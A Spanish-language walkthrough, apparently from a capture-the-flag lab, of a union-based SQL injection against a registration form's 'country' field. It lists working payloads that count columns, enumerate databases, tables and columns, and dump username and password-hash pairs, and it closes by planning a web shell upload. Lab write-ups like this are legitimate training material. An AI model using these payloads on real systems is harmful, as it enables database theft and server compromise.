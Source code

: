 Para conseguirlo utilizaremos la orden `order by` seguido del número de campos que queramos probar, lo que tendremos que hacer es ir variando el número hasta encontrar cual no nos da error y que el siguente si nos lo de.

```plaintext
username=xdann1&country=Brazil' ORDER BY 1-- -
```

Vemos que la tabla cuenta solo con un campo, sabiendo esto ya nos podemos poner manos a la obra. Lo primero que haremos será sacar el nombre de la base de datos, la versión y el usuario que está corriendola. Como solo tenemos un campo con el que operar tendremos que recurrir a concatenar con la orden concat. (0x20 significa el caracter espacio en hexadecimal)

```plaintext
username=xdann1&country=Brazil' UNION SELECT CONCAT(user(),0x20,database(),0x20,@@version)-- -
```

* Usuario > uhc@localhost
* Base de datos > registration 
* Versión > 10.5.11-MariaDB-1

Empezemos buscando que bases de datos existen.

```plaintext
username=xdann1&country=Brazil' UNION SELECT schema_name FROM information_schema.schemata-- -
```

* Bases de datos existentes > information_schema, performance_schema, mysql y registration 

Ahora vamos a sacar las tablas existentes en la base de datos registration.

```plaintext
username=xdann1&country=Brazil' UNION SELECT table_name FROM information_schema.tables where table_schema="registration"-- -
```

* Tablas existentes en la base de datos registration > registration

Saquemos las columnas de la tabla registration.

```plaintext
username=xdann1&country=Brazil' UNION SELECT column_name FROM information_schema.columns WHERE table_schema="registration" AND table_name="registration"-- -
```

* Columnas de la tabla registration > username, userhash, country y regtime

Vamos a sacar toda la información contenida de las columnas username y userhash.

```plaintext
username=xdann1&country=Brazil' UNION SELECT CONCAT(username,0x3a,userhash) FROM registration.registration-- -
```

```plaintext
xdann1:c2b5b685495dbbf7ea7d9539d8150f7b
xdann1':aed18eeb555ae4135a0fab179b34a001
```

Hemos obtenido los nombres y los hashes de los usuarios, pero no de otros usuarios, sino de los nuestros. Cosas que pasan... Aun así podemos probar otras cosas, por ejemplo, podemos intentar ver si el usuario que está corriendo la base de datos tiene permisos de escritura, si fuera así podríamos subir una web shell que nos de acceso a la máquina víctima.

